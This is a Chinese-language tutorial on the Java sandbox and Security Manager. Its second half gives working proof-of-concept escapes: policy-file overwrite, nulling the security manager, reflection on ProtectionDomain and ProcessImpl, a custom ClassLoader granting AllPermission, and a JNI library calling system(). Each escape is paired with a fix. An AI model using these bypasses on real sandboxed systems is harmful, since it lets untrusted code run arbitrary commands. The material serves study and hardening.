

# Java沙箱

- 在默认情况下，我们编写一个Java程序，可以去访问到机器的任意资源，比如说读取文件，删除文件，写文件，执行命令，以及去进行一些网络请求等操作，但是当程序部署的时候，会存在一定的安全风险，这个时候为了消除隐患，一般采用两种方式
  - 用特定权限的账号去运行程序，让程序没有足够的权限去进行一些操作
  - 利用沙箱来限制程序
- 沙箱其实就是一个限制程序运行的环境，所有的Java程序运行是都可以指定沙箱，定制安全策略
- Java沙箱的组成：
  - 字节码校验器（Bytecode Verifier）：用来确保class文件符合Java的语言规范。但是不是所有class文件都会经过字节码校验，核心类就不会通过字节码校验。
  - 类加载器（ClassLoader）：在Java中，所有的类都是通过ClassLoader加载的，也可以自定义ClassLoader来设置加载类的权限
  - 存取控制器（Access Controller）：存取控制器可以控制核心API对操作系统的存取权限，并且这个控制器的策略可以由用户指定
  - 安全管理器（Security Manager）：是核心API和操作系统之间的主要接口。实现权限控制，比存取控制器优先级高。
  - 安全软件包（Security Package）：java.security下的类和扩展包下的类，允许用户为自己的应用增加新的安全特性，包括：
    - 安全提供者
    - 消息摘要
    - 数字签名
    - 加密
    - 鉴别
- Java沙箱的组成大多数是内置在JVM和Java中的，只有Java Security Manager是能被开发者控制的。

## Java沙箱的要素

### 权限

- 对于沙箱，我们可以自己定义相应执行的权限，权限即是只允许代码执行的操作，包含3部分：

  - 权限类型
  - 权限名
  - 允许的操作

- 权限名一般就是对哪类资源进行操作的资源定位（比如一个文件名或者通配符、网络主机等），一般基于权限类型来设置，有的比如java.security.AllPermission不需要权限名。允许的操作也和权限类型对应，指定了对目标可以执行的操作行为，比如读、写等。

  ```
  ermission java.security.AllPermission;    //权限类型
  permission java.lang.RuntimePermission "stopThread";    //权限类型+权限名
  permission java.io.FilePermission "/tmp/foo" "read";    //权限类型+权限名+允许的操作
  ```

> 标准权限如下表：
>
> | 说明       | 类型                                | 权限名                                                   | 操作                   | 例子                                                         |
> | :--------- | :---------------------------------- | :------------------------------------------------------- | :--------------------- | :----------------------------------------------------------- |
> | 文件权限   | java.io.FilePermission              | 文件名（平台依赖）                                       | 读、写、删除、执行     | 允许所有文件的读写删除执行：permission java.io.FilePermission “<< ALL FILES>>”, “read,write,delete,execute”;。允许对用户主目录的读：permission java.io.FilePermission “${user.home}/-“, “read”; |
> | 套接字权限 | java.net.SocketPermission           | 主机名:端口                                              | 接收、监听、连接、解析 | 允许实现所有套接字操作：permission java.net.SocketPermission “:1-“, “accept,listen,connect,resolve”;。允许建立到特定网站的连接：permission java.net.SocketPermission “.abc.com:1-“, “connect,resolve”; |
> | 属性权限   | java.util.PropertyPermission        | 需要访问的jvm属性名                                      | 读、写                 | 读标准Java属性：permission java.util.PropertyPermission “java.”, “read”;。在sdo包中创建属性：permission java.util.PropertyPermission “sdo.”, “read,write”; |
> | 运行时权限 | java.lang.RuntimePermission         | 多种权限名[见附录A]                                      | 无                     | 允许代码初始化打印任务：permission java.lang.RuntimePermission “queuePrintJob” |
> | AWT权限    | java.awt.AWTPermission              | 6种权限名[见附录B]                                       | 无                     | 允许代码充分使用robot类：permission java.awt.AWTPermission “createRobot”; permission java.awt.AWTPermission “readDisplayPixels”; |
> | 网络权限   | java.net.NetPermission              | 3种权限名[见附录C]                                       | 无                     | 允许安装流处理器：permission java.net.NetPermission “specifyStreamHandler”;。 |
> | 安全权限   | java.security.SecurityPermission    | 多种权限名[见附录D]                                      | 无                     |                                                              |
> | 序列化权限 | java.io.SerializablePermission      | 2种权限名[见附录E]                                       | 无                     |                                                              |
> | 反射权限   | java.lang.reflect.ReflectPermission | suppressAccessChecks（允许利用反射检查任意类的私有变量） | 无                     |                                                              |
> | 完全权限   | java.security.AllPermission         | 无（拥有执行任何操作的权限）                             | 无                     |                                                              |

**代码源：**代码源是类所在的位置，表示为URL地址。

**保护域：**保护域用来组合代码源和权限，这是沙箱的基本概念。保护域就在于声明了比如由代码A可以做权限B这样的事情。

### 策略文件

- 策略文件是控制沙箱的管理要素，在策略文件中，包含了一个或多个保护域的项。关于代码权限的定义就在策略文件中，策略文件包括全局和用户专属两种

- > JVM可以使用多个策略文件，不过一般来说下面两个最为常用。一个是全局的`$JREHOME/lib/security/java.policy`，作用于JVM的所有实例；另一个是用户自己的，可以存储到用户的主目录下。策略文件可以使用JDK自带的policytool工具编辑。

#### java.policy

- 这是Java沙箱全局的策略文件


```

// Standard extensions get all permissions by default

grant codeBase "file:${{java.ext.dirs}}/*" {
        permission java.security.AllPermission;
};

// default permissions granted to all domains

grant {
        // Allows any thread to stop itself using the java.lang.Thread.stop()
        // method that takes no argument.
        // Note that this permission is granted by default only to remain
        // backwards compatible.
        // It is strongly recommended that you either remove this permission
        // from this policy file or further restrict it to code sources
        // that you specify, because Thread.stop() is potentially unsafe.
        // See the API specification of java.lang.Thread.stop() for more
        // information.
        permission java.lang.RuntimePermission "stopThread";

        // allows anyone to listen on dynamic ports
        permission java.net.SocketPermission "localhost:0", "listen";

        // "standard" properies that can be read by anyone

        permission java.util.PropertyPermission "java.version", "read";
        permission java.util.PropertyPermission "java.vendor", "read";
        permission java.util.PropertyPermission "java.vendor.url", "read";
        permission java.util.PropertyPermission "java.class.version", "read";
        permission java.util.PropertyPermission "os.name", "read";
        permission java.util.PropertyPermission "os.version", "read";
        permission java.util.PropertyPermission "os.arch", "read";
        permission java.util.PropertyPermission "file.separator", "read";
        permission java.util.PropertyPermission "path.separator", "read";
        permission java.util.PropertyPermission "line.separator", "read";

        permission java.util.PropertyPermission "java.specification.version", "read";
        permission java.util.PropertyPermission "java.specification.vendor", "read";
        permission java.util.PropertyPermission "java.specification.name", "read";

        permission java.util.PropertyPermission "java.vm.specification.version", "read";
        permission java.util.PropertyPermission "java.vm.specification.vendor", "read";
        permission java.util.PropertyPermission "java.vm.specification.name", "read";
        permission java.util.PropertyPermission "java.vm.version", "read";
        permission java.util.PropertyPermission "java.vm.vendor", "read";
        permission java.util.PropertyPermission "java.vm.name", "read";
};
```

- grant授权允许操作某个权限

- 在启用安全管理器的时候，配置遵循以下基本原则：

  - 没有配置的权限表示没有。
  - 只能配置有什么权限，不能配置禁止做什么。
  - 同一种权限可多次配置，取并集。
  - 统一资源的多种权限可用逗号分割。

- java.policy内容解释，一共有两部分

  - 这一部分授权是基于路径的，授予在java.ext.dirs目录下的所有jar包和class所有权限（即JDK扩展目录）

    ```
    grant codeBase "file:${{java.ext.dirs}}/*" {
        permission java.security.AllPermission;
    };
    ```

  - 第二部分授权，这部分是批量的授权，对于某些资源进行授权，包括运行权限（允许代码stop线程）以及一些属性权限，配置了一些属性只能读

    ```
    grant { 
        permission java.lang.RuntimePermission "stopThread";
        ……   
    }
    ```

- 批量授权的时候，有三种模式
  - `directory/`表示directory目录下的所有.class文件，不包括.jar文件；
  - `directory/*`表示directory目录下的所有的.class及.jar文件；
  - `directory/-`表示directory目录下的所有的.class及.jar文件，包括子目录；

- 可以通过`${}`来引用系统属性，如： `file:${{java.ext.dirs}}/*`
- 具体语法可参照：https://docs.oracle.com/javase/8/docs/technotes/guides/security/PolicyFiles.html

#### java.security

- 另外一个有关Java沙箱的参数文件——java.security，这个文件和策略文件（java.policy）在一个目录下


- 部分文件如下


- `policy.url.*`这个属性指明了使用的策略文件，如上文所述，默认的两个位置就在这里配置，用户可以自行更改顺序和存储位置。而policy.allowSystemProperty指明是否允许用户自行通过命令行指定policy文件。

## Java沙箱应用

- 测试代码：https://github.com/codeplutos/java-security-manager-bypass

- 在Java中，默认是不开启沙箱的，如需要开启需要指定VM Option

  ```
  -Djava.security.manager
  ```

- 沙箱**启动后**，安全管理器会使用两个默认的策略文件来确定沙箱启动参数。当然也可以通过命令指定：

  ```
  java -Djava.security.policy=<URL>
  ```

  如果要求启动时只遵循一个策略文件，那么启动参数要加个等号，如下：

  ```
  java -Djava.security.policy==<URL>
  ```

- 写一个`Runtime.getRuntime().exec("calc");`然后加上`-Djava.security.manager`

  

- 看到给的是所有文件都不能去执行命令

- 现在我们自定义一个policy

  ```
  grant {
      permission java.io.FilePermission "<<ALL FILES>>", "execute";
  };
  ```

- 指定一下这个policy重新运行一下代码

- `-Djava.security.manager -Djava.security.policy==/Users/DawnT0wn/java/java-security-manager-bypass/rewrite-home-policy/test.policy`

  

# Java沙箱逃逸

- 前面在对沙箱了解过程中，可以发现除了java安全管理器外，其他的基本上都是内置的，是我们不可控的，所以要对Java沙箱逃逸，其实就是对Java Security Manager的绕过。

## 单等号+home目录可写绕过

- 在前面的java.security中看到，默认加载的policy有两个，一个是java.policy在JRE_HOME/lib/security下，另外一个则是policy.url.2=file:${user.home}/.java.policy，即home目录

- 并且在通过-Djava.security.policy指定policy文件的时候，如果后面只有一个等号，在可以在原本的基础上加上制定的policy文件

- 现在有这样一个场景，开发者自定义了一个策略文件，其中包括home目录的写

  ```
  grant {
      permission java.io.FilePermission "/Users/DawnT0wn-", "read,write";
  };
  ```

- 运行下面java代码

  ```
  package com.evil;
  
  import java.io.File;
  import java.io.FileInputStream;
  import java.io.FileWriter;
  import java.io.IOException;
  import java.net.Socket;
  
  public class Poc {
      public static void main(String[] args) throws IOException {
          //Run with: -Djava.security.manager -Djava.security.policy=rewrite-home-policy.policy
          //通过这种方法绕过时，需要先写入.java.policy文件，然后重启jvm，.java.policy才能加载进来。
          exec("open -a Calculator");
          bypass();
      }
  
      public static void bypass() {
          final String homePolicyFile = "grant {\n" +
                  "    permission java.io.FilePermission \"<<ALL FILES>>\", \"execute\";\n" +
                  "};";
          try {
              FileWriter writer = new FileWriter("/Users/DawnT0wn/.java.policy");
              writer.write(homePolicyFile);
              writer.close();
          } catch (IOException e) {
              e.printStackTrace();
          }
      }
  
      public static void exec(String command) {
          try {
              Runtime.getRuntime().exec(command);
          } catch (Exception e) {
              e.printStackTrace();
          }
      }
  }
  ```

- 会抛出异常

  

- 但是文件成功写入到了我的home目录

  

- 重新运行java代码弹出计算器，并且没有报错了

  

**修复方式**：使用双等号单个policy文件

## setSecurityManager绕过

- Java Security Manger可以通过jvm参数-Djava.security.policy指定，还可以在运行时通过System.setSecurityManager()方法指定。但是需要被授予setSecurityManager权限，这样代码可以在运行时调用setSecurityManager，将Java Security Manager置为null，从而进行绕过。

- 用到的policy文件如下

  ```
  grant {
      permission java.lang.RuntimePermission "setSecurityManager";
  };
  ```

- 在demo运行如下代码，加上-Djava.security.manager -Djava.security.policy==set-security-manager.policy参数

  ```
  package com.evil;
  
  public class Poc {
      public static void main(String[] args) {
          //Run with: -Djava.security.manager -Djava.security.policy==set-security-manager.policy
          exec("open -a Calculator");
          bypass();
  
      }
  
      public static void bypass() {
          System.setSecurityManager(null);
          exec("open -a Calculator");
      }
  
      public static void exec(String command) {
          try {
              Runtime.getRuntime().exec(command);
          } catch (Exception e) {
              e.printStackTrace();
          }
      }
  }
  ```

- 在此之前，我已经将home目录下的java.policy删除了，运行后弹出计算器，第一次报错了，但是bypass中的成功执行了

  

修复方式：注意不要授予代码setSecurityManager权限

## 通过反射绕过

### getProtectionDomain0

- 需要的policy文件如下

  ```
  grant {
      permission java.lang.reflect.ReflectPermission "suppressAccessChecks";
      permission java.lang.RuntimePermission "accessDeclaredMembers";
  };
  ```

- 在上一步，我们采用了setSecurityManager来进行绕过，来跟进一下这个方法

  

  

- 最后发现是将security这个参数设置为了null，于是来试试能不能用反射直接将这个参数设置为null

  ```
  package evil;
  
  import java.lang.reflect.Field;
  
  public class test {
      public static void main(String[] args) throws Exception{
          System.out.println("[*] Testing Bypass by Reflection");
          setSecurityByReflection();
      }
  
      public static void setSecurityByReflection() throws Exception{
          Class clz = Class.forName("java.lang.System");
          Field field = clz.getDeclaredField("security");
          field.setAccessible(true);
          field.set(clz, null);
      }
  }
  ```

  

- 直接报错找不到这个Field，跟进到getDeclaredField里面看看

  

- 这里搜索Field的时候，会先通过privateGetDeclaredFields

  

- 在这个方法中会通过filterFields对Field先进行一次过滤，而fieldFilterMap则在Reflection对static代码块中初始化了

  

  

- 会从黑名单中进行匹配，而security就在这个黑名单中，所以不能对这个属性进行反射修改

- 在Java中，一个类的URL与签名组成了这个CodeSource，在policy文件中，我们配置了一个CodeSource具有什么权限，一个类的CodeSource和它的权限构成了这个类的ProtectionDomain。

  

- 既然不能操作Java Security Manage，我们就来尝试操作ProtectionDomain

  

- 在这个类中看到了一个hasAllPerm，根据注释可以看得出来，这个属性是标记这个类是否有所有权限的布尔变量

- > 但是问题在于AccessController会沿着栈自顶向下检查，必须所有栈帧都有权限才能通过。
  >
  > 这里我们也遍历所有栈帧，将所有栈帧中的所有类的ProtectionDomain中的hasAllPerm置为true。

  

- 但是却报错我没有getProtectionDomain权限，来就来看看代码运行时调用的getProtectionDomain方法

  

- 在getProtectionDomain方法中，先进行权限检查，通过后调用了getProtectionDomain0方法，最后返回的内容也就是getProtectionDomain0的结果，那就直接在代码中调用getProtectionDomain0吧

- 于是修改代码

  ```java
  public static void setHasAllPerm() throws Exception{
      StackTraceElement[] stackTraceElements = Thread.currentThread().getStackTrace();
      for (StackTraceElement stackTraceElement: stackTraceElements){
          Class clz = Class.forName(stackTraceElement.getClassName());
          // 反射调用getProtectionDomain0方法
          Method method = clz.getClass().getDeclaredMethod("getProtectionDomain0", null);
          method.setAccessible(true);
          java.security.ProtectionDomain pd = (ProtectionDomain) method.invoke(clz);
  
          if (pd != null){
              Field field = pd.getClass().getDeclaredField("hasAllPerm");
              field.setAccessible(true);
              field.set(pd, true);
          }
      }
  }
  ```

- 全部代码如下

  ```
  package evil;
  
  import java.lang.reflect.Field;
  import java.lang.reflect.Method;
  import java.security.ProtectionDomain;
  
  public class test {
      public static void main(String[] args) throws Exception{
          System.out.println("[*] Testing Bypass by Reflection");
          setHasAllPerm();
          Runtime.getRuntime().exec("open -a Calculator");
  //        setSecurityByReflection();
      }
  
      public static void setHasAllPerm() throws Exception{
          StackTraceElement[] stackTraceElements = Thread.currentThread().getStackTrace();
          for (StackTraceElement stackTraceElement: stackTraceElements){
              Class clz = Class.forName(stackTraceElement.getClassName());
              // 反射调用getProtectionDomain0方法
              Method method = clz.getClass().getDeclaredMethod("getProtectionDomain0", null);
              method.setAccessible(true);
              java.security.ProtectionDomain pd = (ProtectionDomain) method.invoke(clz);
  
              if (pd != null){
                  Field field = pd.getClass().getDeclaredField("hasAllPerm");
                  field.setAccessible(true);
                  field.set(pd, true);
              }
          }
      }
  }
  ```

  

### ProcessImpl

- 在有些方法中，他会先去进行权限检测，然后调用一个protect或者private方法实现功能，这样我们就可以通过反射去进行绕过

- 例如命令执行，来观察一下`Runtime.getRuntime().exec()`执行过程中是在哪儿进行的权限检测

  

- 可以看到是在ProcessBuilder中进行的权限检测，而我们知道，执行命令的时候甚至可以直接调用更深层次的ProcessImpl来执行命令，所以可以直接调用ProcessImpl来绕过沙箱检测

  ```
  public static void reflectProcessImpl(String command) throws Exception{
      Class Pro = Class.forName("java.lang.ProcessImpl");
      Method method = Pro.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
      method.setAccessible(true);
      Process p = (Process) method.invoke(null, new String[]{command}, null, ".", null, true);//静态方法,invoke不需要传入对象
      //获取p的输入流
      InputStream is = p.getInputStream();
      //将缓冲区的数据，转换成字节数组
      ByteArrayOutputStream out = new ByteArrayOutputStream();
      byte[] bytes = new byte[1024];
      int size = 0;
      while ((size = is.read(bytes)) != -1){
          out.write(bytes,0,size);
      }
      System.out.println(out.toString());
  }
  ```

  

修复方法：不授予accessDeclaredMembers权限和suppressAccessChecks权限。

- 然而在java中，反射是一个非常常见的操作，如果由于业务需要，无法禁用反射，可以设置禁止反射的方法和变量的黑名单。就和上面禁用system的security属性一样。

- 在sun.reflect.Reflection中定义了静态的methodFilterMap和fieldMethodMap，在这里面的方法和变量禁止反射。sun.reflect.Reflection还提供了几个方法，可以往methodFilterMap和fieldMethodMap中添加自定义的黑名单。代码如下：

  ```java
  public static synchronized void registerFieldsToFilter(Class<?> var0, String... var1) {
      fieldFilterMap = registerFilter(fieldFilterMap, var0, var1);
  }
  public static synchronized void registerMethodsToFilter(Class<?> var0, String... var1) {
      methodFilterMap = registerFilter(methodFilterMap, var0, var1);
  }
  ```

- 这样，只需要在加载恶意代码之前，把禁止反射的黑名单加入这两个Map即可。

## 创建ClassLoader绕过

- 一个类的ProtectionDomain在这个类被ClassLoader加载的时候进行初始化。

- 如果可以自定义一个ClassLoader来加载恶意类，然后把他的ProtectionDomain里面的hasAllPerm设置为true

  

- 不过，在恶意类被加载调用的时候，它仅仅是栈中的一个栈帧，在他下面的栈帧仍然是policy文件指定的权限。

- > 但是AccessController会自顶向下遍历栈帧，如果遍历到doPrivileged，它会检查到调用doPrivileged方法的栈帧为止。只要我们在恶意类中调用doPrivileged方法，AccessController只会向下遍历检查到恶意类所在的栈帧，而恶意类对应的权限是所有权限，这样就可以绕过Java Security Manager。

- java.policy如下，这里需要读class文件，所以需要读文件权限

  ```java
  grant{
      permission java.lang.RuntimePermission "createClassLoader";
      permission java.io.FilePermission "<<ALL FILES>>", "read";
  };
  ```

- 恶意类如下：

  ```
  //
  // Source code recreated from a .class file by IntelliJ IDEA
  // (powered by FernFlower decompiler)
  //
  
  import java.security.AccessController;
  import java.security.PrivilegedAction;
  
  public class EvilClass {
      public EvilClass() {
      }
  
      static {
          AccessController.doPrivileged(new PrivilegedAction() {
              public Object run() {
                  try {
                      Process var1 = Runtime.getRuntime().exec("open -a Calculator");
                      return null;
                  } catch (Exception var2) {
                      var2.printStackTrace();
                      return null;
                  }
              }
          });
      }
  }
  ```

  

- ClassLoader如下

  ```java
  package com.evil;
  
  import java.io.ByteArrayOutputStream;
  import java.io.File;
  import java.io.FileInputStream;
  import java.nio.ByteBuffer;
  import java.nio.channels.Channels;
  import java.nio.channels.FileChannel;
  import java.nio.channels.WritableByteChannel;
  import java.security.*;
  import java.security.cert.Certificate;
  
  public class MyClassLoader extends ClassLoader {
      public MyClassLoader() {
      }
  
      public MyClassLoader(ClassLoader parent) {
          super(parent);
      }
  
  
      @Override
      protected Class<?> findClass(String name) throws ClassNotFoundException {
          File file = getClassFile(name);
          try {
              byte[] bytes = getClassBytes(file);
              //在这里调用defineClazz，而不是super.defineClass
              Class<?> c = defineClazz(name, bytes, 0, bytes.length);
              return c;
          } catch (Exception e) {
              e.printStackTrace();
          }
  
          return super.findClass(name);
      }
  
      protected final Class<?> defineClazz(String name, byte[] b, int off, int len) throws ClassFormatError {
          try {
              PermissionCollection pc=new Permissions();
              pc.add(new AllPermission());
  
              //设置ProtectionDomain
              ProtectionDomain pd = new ProtectionDomain(new CodeSource(null, (Certificate[]) null),
                      pc, this, null);
              return this.defineClass(name, b, off, len, pd);
          } catch (Exception e) {
              return null;
          }
      }
  
      private File getClassFile(String name) {
          File file = new File("./" + name + ".class");
          return file;
      }
  
      private byte[] getClassBytes(File file) throws Exception {
          FileInputStream fis = new FileInputStream(file);
          FileChannel fc = fis.getChannel();
          ByteArrayOutputStream baos = new ByteArrayOutputStream();
          WritableByteChannel wbc = Channels.newChannel(baos);
          ByteBuffer by = ByteBuffer.allocate(1024);
  
          while (true) {
              int i = fc.read(by);
              if (i == 0 || i == -1) {
                  break;
              }
  
              by.flip();
              wbc.write(by);
              by.clear();
          }
          fis.close();
          return baos.toByteArray();
      }
  }
  ```

- 在自定义的ClassLoader中重写了findClass方法，并没有去调用父类的findClass而是直接调用了自定义的defineClazz方法，在defineClazz中设置了ProtectionDomain后再通过defineClass加载字节码

  

- 在没有授予代码执行权限的情况下，弹出了计算器

- 如果执行报错的话，可以参考https://github.com/codeplutos/java-security-manager-bypass/issues/2

## 本地方法调用绕过

- Java Security Manager是java库中的一个功能，而java的native方法是由jvm执行的，所以说native方法不收Java Security Manager管控

- 声明一个native方法

  ```
  package com.evil;
  
  public class EvilMethodClass {
  
      // 加载动态链接库
      static {
          System.load("/root/libEvilMethodClass.so");
      }
  
      // 声明native方法
      public static native String evilMethod(String name);
  }
  ```

- poc.java

  ```
  package com.evil;
  
  
  public class Poc {
      //Run with: -Djava.security.manager -Djava.security.policy==invoke-native-method.policy
      //这个poc需要在Linux上跑
      public static void main(String[] args){
          EvilMethodClass.evilMethod(args[0]);
      }
  }
  ```

- 生成.h头

  ```shell
  javac src/com/evil/EvilMethodClass.java -d ./bin
  javah -jni -classpath ./bin -d ./jni com.evil.EvilMethodClass
  javah -jni -classpath ./bin -o EvilMethodClass.h com.evil.EvilMethodClass
  ```

  

- 生成的内容如下

  

- 新建EvilMethodClass.c

  ```c
  #include "com_evil_EvilMethodClass.h"
  #include<stdlib.h>
  
  #ifdef __cplusplus
  extern "C"
  {
  #endif
  
  
  JNIEXPORT jstring JNICALL Java_com_evil_EvilMethodClass_evilMethod(
          JNIEnv *env, jclass cls, jstring j_str)
  {
      const char *c_str = NULL;
      char buff[128] = { 0 };
      c_str = (*env)->GetStringUTFChars(env, j_str, NULL);
      if (c_str == NULL)
      {
          printf("out of memory.n");
          return NULL;
      }
      //在这里执行系统命令
      system(c_str);
      (*env)->ReleaseStringUTFChars(env, j_str, c_str);
      return (*env)->NewStringUTF(env, buff);
  }
  #ifdef __cplusplus
  }
  #endif
  ```

- 编译成so文件

  ```
  linux下编译
  gcc -I$JAVA_HOME/include -I$JAVA_HOME/include/linux -fPIC -shared EvilMethodClass.c -o libEvilMethodClass.so
  
  mac下编译
  gcc -I$JAVA_HOME/include -I$JAVA_HOME/include/darwin -fPIC -shared EvilMethodClass.c -o libEvilMethodClass.dylib
  
  不过对于arm的问题我难得去解决了，因为在绕过的时候也不会遇到这种情况
  ```

- 最后将动态链接库放到原本设置的位置，放到linux下执行

  

修复方式：不授予loadLibrary权限


参考链接：

https://www.mi1k7ea.com/2020/05/03/%E6%B5%85%E6%9E%90Java%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/#%E9%99%90%E5%88%B6%E8%AF%BB%E6%96%87%E4%BB%B6

https://www.anquanke.com/post/id/151398

https://github.com/codeplutos/java-security-manager-bypass

https://docs.oracle.com/javase/8/docs/technotes/guides/security/PolicyFiles.html

https://github.com/codeplutos/java-security-manager-bypass/issues/2